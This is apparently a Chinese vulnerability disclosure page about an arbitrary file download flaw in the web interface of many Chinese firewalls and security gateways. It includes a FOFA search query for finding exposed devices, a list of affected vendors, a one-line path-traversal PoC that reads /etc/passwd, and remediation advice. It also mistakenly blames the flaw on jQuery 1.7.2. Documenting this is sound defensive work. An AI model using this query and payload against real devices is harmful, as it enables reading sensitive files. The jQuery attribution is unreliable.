




## JQuery 1.7.2版本站点前台任意文件下载漏洞

## 漏洞描述

使用了JQuery 1.7.2的JavaScript库的站点可通过前台任意文件下载，可读取敏感文件。

## 漏洞影响

> 使用了JQuery 1.7.2版本的站点

## FOFA

> body="webui/js/jquerylib/jquery-1.7.2.min.js"

## 漏洞复现

搜索结果如下：



其中涉及的产品较多，例如：

```
H3C SecPath 下一代防火墙
迈普 ISG1000安全网关
北京圣博润LanSecS第二代防火墙
深圳市万网博通科技有限公司下一代智能防火墙
任子行网络技术股份有限公司任天行网络安全管理系统
中新金盾防火墙
睿峰网云防火墙
安博通深度安全网关
安博通应用网关
金电网安第二代防火墙
蓝盾防火墙
蓝盾信息安全管理审计系统
网御上网行为管理系统
中兴皖通智能多业务网关
卓智智能安全网关
等等。。
```

就拿圣博润举例吧：

登录界面如下：



###POC如下

```
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```



再来测试下前台访问



因该漏洞涉及较多，请勿发布至其他公开站点，谢谢配合。

修复建议：

```
1、对用户输入做控制，最好使用白名单。

2、禁止../与其变形。

3、升级到其他安全版本。
```